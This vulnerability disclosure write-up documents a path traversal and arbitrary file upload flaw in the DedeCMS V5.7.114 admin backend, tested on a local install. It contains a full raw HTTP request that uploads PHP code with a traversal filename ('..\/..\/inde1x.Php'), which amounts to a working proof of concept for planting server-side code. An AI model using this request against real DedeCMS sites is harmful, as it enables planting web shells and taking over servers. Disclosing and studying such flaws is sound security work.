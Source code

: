 # Dedecms Path traversal+arbitrary file upload

​	The zip compression file upload function of the Dreamweaver backend software manager has vulnerabilities such as path traversal and arbitrary file upload

![image-20240708130926507](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708130926507.png)

​	E: \ seebug \ php study_p is the root directory of my current web integration environment deployment. The current project is deployed in the 127.0.0.1-9600 folder under the WWW path

![image-20240708113031935](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708113031935.png)

​	visit http://127.0.0.1:9600/dede/ And log in to the backend of dedecms to create a new atlas list http://127.0.0.1:9600/dede/album_add.php The interface is shown below

![image-20240712135020653](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240712135020653.png)	The vulnerability mainly appears at the compressed file upload location

![image-20240712135159882](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240712135159882.png)

```http
POST /include/dialog/select_soft_post.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 752
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGneeoYoNcoA3cyfK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/include/dialog/select_soft.php?f=form1.zipfile
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=ef87ce85f5d16c9875d2c6089936835b; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=c1e0489e3c20f4bf; last_vtime=1720421835; last_vtime1BH21ANI1AGD297L1FF21LN02BGE1DNG=070401ac415b7cb7; last_vid=admin; last_vid1BH21ANI1AGD297L1FF21LN02BGE1DNG=501af9a85db1a161; OrdersId=9448BQQIAFJRAgIFAQIIXQINU1cPAAFRVAIGAwY2FGYEVQAFAAoGVlAAYHsGBgY; ENV_GOBACK_URL=%2Fmember%2Fcontent_list.php%3Fchannelid%3D6; DedeLoginTime=1720426605; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=629ca267a38c9755; Shop_De_85=626cVlNVBgkHU1FVU1QBAAFTDwVTCVJXUgkDUlNbAV8OB0QWEQxVXApTRxANCxBFCkVVRxpfRFtcARdACkYJBwsXJ1VGXQYcDyJEIFtHJXMSIXYXJgkUdycVcHBGd1ZHDgJHXiFAcw0SISBAWyE; Shop_De_78=b741AwUHVAQBCAIBUlIFVwhVWg8GXwMEAAVaClRQAgUCARBDR14HUQwNAhcXWFkVQgxHc1NDCXETdyAUBkwfVkBUCwITQw1AXV0PFCcFFVkBFFp3QCMFF3dyRgsiHCMNEHhyFgwHQXECHQoBRw5y
Connection: close

------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="activepath"

/uploads/soft
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="f"

form1.zipfile
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="job"

upload
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="uploadfile"; filename="try.zip"
Content-Type: application/x-zip-compressed

<?php echo 123;?>
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="newname"

..\/..\/..\/..\/inde1x.Php
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="sb1"

确定
------WebKitFormBoundaryGneeoYoNcoA3cyfK--
```

​	Activepath did not perform sufficient filtering here, resulting in path traversal that can be achieved by controlling the Activepath parameter to upload ZIP compressed files at any location

![image-20240708171125047](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708171125047.png)
